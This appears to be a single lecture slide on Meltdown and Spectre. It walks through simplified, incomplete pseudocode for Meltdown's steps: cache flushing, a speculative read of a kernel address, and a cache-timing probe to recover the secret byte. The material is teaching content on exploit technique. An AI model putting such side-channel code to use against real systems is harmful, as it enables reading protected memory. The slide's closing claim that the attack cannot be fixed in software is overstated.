

Meltdown & Spectre
# Meltdown Example Code
We reset the processor cache
char userspace_array[256*4096];
for (i = 0; i < 256*4096; i++) { _mm_clflush(&userspace_array[i]); }
We read an interesting variable from the address space of the kernel, which will cause an exception, but it will not be processed immediately.
const char* kernel_space_ptr = 0xBAADF00D;
char tmp = *kernel_space_ptr;
Speculatively, we do a read from the array, which is located in our user address space, based on the value of the variable from item 2.
char not_used = userspace_array[tmp * 4096];
We consistently read the array and accurately measure the access time. All the elements, except for one, will be read slowly, but the element that corresponds to the value at the address inaccessible to us is fast, because it has already entered the cache.
for (i = 0; i < 256; i++) {
if (is_in_cache(userspace_array[i*4096])) {
// Got it! *kernel_space_ptr == i }}
Thus, the object of the attack is the microarchitecture of the processor, and the attack itself cannot be repaired in the software.